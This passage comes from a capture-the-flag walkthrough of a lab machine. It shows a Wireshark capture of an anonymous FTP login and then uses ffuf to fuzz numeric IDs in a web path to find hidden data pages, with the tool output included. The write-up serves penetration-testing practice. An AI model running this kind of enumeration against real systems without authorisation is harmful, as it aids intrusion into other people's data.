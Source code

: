 Let's download and open it on `wireshark`.

```bash
220 (vsFTPd 3.0.3)
USER anonymous
331 Please specify the password.
PASS test
```

It is the captured packet. It contains my input when I was trying anonymous login.

# Shell as `nathan`

### Fuzz URL

Btw, I captured that the address of the page is slightly modified from the previous result.

Here's the previous one;
`http://10.10.10.245/data/2`

And this is the current result;
`http://10.10.10.245/data/3`

I think I can modify the last `/0` number to see different output.

First, let's prepare number list for fuzzing.

```bash
seq 0 100 > numbers.txt
```

Then, let's try fuzzing with `ffuf`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ffuf -u http://10.10.10.245/data/FUZZ -w numbers.txt:FUZZ -fs 208

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.245/data/FUZZ
 :: Wordlist         : FUZZ: /home/kali/htb/numbers.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 208
________________________________________________

:: Progress: [40/100] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: E:: Progress: [40/100] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: E:: Progress: [40/100] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: E:: Progress: [77/100] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: E3                       [Status: 200, Size: 17144, Words: 7066, Lines: 371, Duration: 144ms]
:: Progress: [84/100] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: E1                       [Status: 200, Size: 17144, Words: 7066, Lines: 371, Duration: 155ms]
:: Progress: [95/100] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: E2                       [Status: 200, Size: 17144, Words: 7066, Lines: 371, Duration: 159ms]
:: Progress: [87/101] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: E0                       [Status: 200, Size: 17147, Words: 7066, Lines: 371, Duration: 169ms]
```